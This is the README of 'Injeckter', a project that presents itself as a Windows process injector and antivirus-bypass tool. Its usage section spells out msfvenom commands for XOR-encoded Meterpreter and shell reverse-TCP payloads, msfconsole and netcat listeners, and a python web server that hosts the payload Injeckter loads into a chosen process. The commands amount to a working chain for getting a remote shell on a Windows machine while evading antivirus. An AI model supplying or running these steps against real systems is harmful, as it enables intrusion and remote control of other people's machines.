

<!-- PROJECT SHIELDS -->
[![Build Status][build-shield]]()
[![Contributors][contributors-shield]]()
[![MIT License][license-shield]][license-url]

<!-- PROJECT LOGO -->
 

  

  <h3 align="center">Injeckter</h3>

  

    A Process Injector and AV Bypass program for Windows
     
     
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Report Bug</a>
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Request Feature</a>
  

<!-- ABOUT THE PROJECT -->
## About The Project

[![Product Name Screen Shot][product-screenshot]]

A Process Injector and AV Bypass program for Windows.

<!-- USAGE EXAMPLES -->
## Usage

EXAMPLE METERPRETER REVERSE SHELL:

Generate Payload:
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:
msfconsole -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set LHOST <IP_ADDRESS>; set LPORT <PORT>; set ExitOnSession false; exploit -j"

EXAMPLE NETCAT REVERSE SHELL:

Generate Payload:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:
nc -nvlp <PORT>

FOR ALL PAYLOADS:

python3 -m http.server <PORT>
Enter payload URL in Injeckter text box, select or enter process, and click "Run".  

<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.

<!-- CONTACT -->
## Contact

Kerry Enfinger - kerry.enfinger@proton.me

Project Link: [https://github.com/kenfinger/Injeckter](https://github.com/kenfinger/Injeckter)

<!-- MARKDOWN LINKS & IMAGES -->
[build-shield]: https://img.shields.io/badge/build-passing-brightgreen.svg?style=flat-square
[contributors-shield]: https://img.shields.io/badge/contributors-1-orange.svg?style=flat-square
[license-shield]: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square
[license-url]: https://choosealicense.com/licenses/mit
[product-screenshot]: https://raw.githubusercontent.com/kenfinger/Injeckter/main/screenshot.png
